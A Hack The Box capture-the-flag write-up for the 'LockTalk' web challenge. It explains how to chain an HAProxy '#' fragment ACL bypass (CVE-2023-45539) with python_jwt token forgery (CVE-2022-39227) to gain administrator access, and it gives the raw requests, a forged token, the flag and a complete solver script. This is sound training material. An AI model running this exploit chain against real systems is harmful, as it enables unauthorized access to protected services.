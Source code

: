 ![](https://raw.githubusercontent.com/hackthebox/writeup-templates/master/challenge/assets/images/banner.png)

<img src="https://github.com/hackthebox/writeup-templates/raw/master/challenge/assets/images/htb.png" style="margin-left: 20px; zoom: 60%;" align=left /> <font size="10">LockTalk</font>

​ DD<sup>th</sup> Feb 2024

​ Challenge Author(s): **dhmosfunk**

### Description:

In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.

### Objective

HAProxy CVE-2023-45539 => python_jwt CVE-2022-39227

### Difficulty:

`medium`

### Flag:

`HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}`

# Challenge

![](assets/challenge.PNG)

### Get access ticket by bypassing HAProxy ACL with **#** fragment 
Based on [CVE-2023-45539 advisory description](https://www.cvedetails.com/cve/CVE-2023-45539/), HAProxy accepts # (fragment) as part of URI, which allows ACL bypass on blocked endpoint by frontend. \
In the given application, there is an ACL for **/api/v1/get_ticket** endpoint.
```bash
...

http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }

...
```
By utilizing the # fragment on the /api/v1/get_ticket endpoint, we can bypass the ACL, obtain the JWT token, and proceed with the next stage of exploitation.
```bash
GET /api/v1/get_ticket# HTTP/1.1
Host: localhost:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Connection: close
```
```bash
HTTP/1.1 200 OK
content-type: application/json
content-length: 554
server: uWSGI Server
connection: close

{"ticket: ":"[JWT_TOKEN]"}
```

### Forging a new JWT Token with tampered claims in order to bypass role restrictions
python_jwt module version 3.3.3 is vulnerable to forging new valid JWT tokens without knowing the secret used by the backend to verify the JWT tokens. Exploiting this vulnerability, a user could bypass role restrictions and hijack user identities by tampering with existing token claims and adding new ones. \
 \
Exploit involves constructing a fake JWT by tampering with the payload section while preserving the original header and signature. Through careful manipulation of base64-encoded payload data, attackers can inject unauthorized claims such as altering user identities or extending token expiration times.

In order to forge a new token with tampered claims, we need to obtain a valid JWT token from the */api/v1/get_ticket* endpoint. \

Let's create the script for generating a tampered token. First, we need to parse the three parts of the JWT token: header, payload, and signature.
```python
[header, payload, signature] = token.split(".")
```
\
Decode from base64 and parse into a JSON object the JWT token. \
On the second line we change the role of the JWT token to administrator
```python
parsed_payload = loads(base64url_decode(payload))
parsed_payload["role"] = "administrator"
```
\
Generate final JWT token. The fake_payload line its serializes the `parsed_payload` JSON object into a string using `json.dumps` with custom seperators such as  (, for items and ':' for key-value pairs). Then, it encodes the string using `base64url_encode` which encodes the string to a valid base64 format. \

The return statement constructs a new JWT token string. It includes:
- header: The original header of the JWT token.
- fake_payload: The manipulated payload, which has been encoded and formatted.
- "":"": An empty field between the header and payload.
- "protected": The header again.
- "payload": The original payload.
- "signature": The original signature.
```python
fake_payload = base64url_encode((dumps(parsed_payload, separators=(',',':'))))
return '{" ' + header + '.'+ fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'
```

### Get the flag
After generating the final JWT token, a GET flag request should look like the following:
```bash
GET /api/v1/flag HTTP/1.1
Host: localhost:1337
Authorization: {" eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MDkxMzQ5MzgsImlhdCI6MTcwOTEzMTMzOCwianRpIjoiaEF3Yy0wN3Z6S1J0ZE5CVFRCTHIxQSIsIm5iZiI6MTcwOTEzMTMzOCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MDkxMzQ5MzgsImlhdCI6MTcwOTEzMTMzOCwianRpIjoiaEF3Yy0wN3Z6S1J0ZE5CVFRCTHIxQSIsIm5iZiI6MTcwOTEzMTMzOCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"hXIK5TCaHej4Q_ZNpXHb-e4Lssd8sFw1Xx9M-8hdKotb0OPwE5-tymyHXODh7TY2J6xHNCiKkGUYS9JwyDWuwQV7fAaospyE4njbEJOF3qiT-sXUkSbwMVMYHMQ9AiGsBJFjPaA__8l6NrqKKcBO-aPvg-7tlMA0YIbG_KewcRbnI7Bu1ewfkY4-0N4MVZdAuExETnal7FnKcTiyx0v8zKTwbkn1hf1ATLb8zkdisj_TAghukx_6r3VCB1slhbnmbHOPqpIOs5HdEu9v8KC74g23UqE7yvC2H_HRJuS73Y9Q6sARdmtUI1e0ooWyo7Lsv0zTA30Z47mrEIcVk2IWjg"}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Connection: close

```
```bash
HTTP/1.1 200 OK
content-type: application/json
content-length: 45
server: uWSGI Server
connection: close

{"message":"HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}"}
```

# Resources
[CVE-2023-45539 : HAProxy before 2.8.2 accepts # as part of the URI component, which might allow remote attackers to obtain sensitive info](https://www.cvedetails.com/cve/CVE-2023-45539/) \
[奇安信攻防社区-CVE-2022-39227漏洞分析](https://forum.butian.net/share/1990) \
[https://github.com/Casualtek/Ransomchats](https://github.com/Casualtek/Ransomchats)

# Solver

```python
from jwcrypto.common import base64url_encode, base64url_decode
from json import loads, dumps
import requests
import socket

def send_raw_http_request(host, port, request):
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    client_socket.connect((host, port))

    client_socket.sendall(request.encode())

    response = b""
    while True:
        recv_data = client_socket.recv(1024)
        if not recv_data:
            break
        response += recv_data

    client_socket.close()

    return response.decode()

def get_token(host,port):
    request = f"""GET /api/v1/get_ticket# HTTP/1.1\r\nHost: {host}:{port}\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36\r\nConnection: close\r\n\r\n"""

    response = send_raw_http_request(host, 1337, request)
    json_start = response.find("{")
    json_end = response.rfind("}") + 1
    json_data = response[json_start:json_end]

    ticket_dict = loads(json_data)
    token = ticket_dict.get("ticket: ") 

    return token

def exp(token):
    [header, payload, signature] = token.split(".")
    parsed_payload = loads(base64url_decode(payload))
    parsed_payload["role"] = "administrator"
    fake_payload = base64url_encode((dumps(parsed_payload, separators=(',',':'))))

    return '{" ' + header + '.'+ fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'

def get_flag(host,port,token):

    headers = {"Authorization": token}
    req = requests.get(f"http://{host}:{port}/api/v1/flag", headers=headers)
    
    return req

host = "localhost"
port = 1337

guest_token = get_token(host, port)
admin_token = exp(guest_token)
flag = get_flag(host, port, admin_token)

print(flag.text)
```
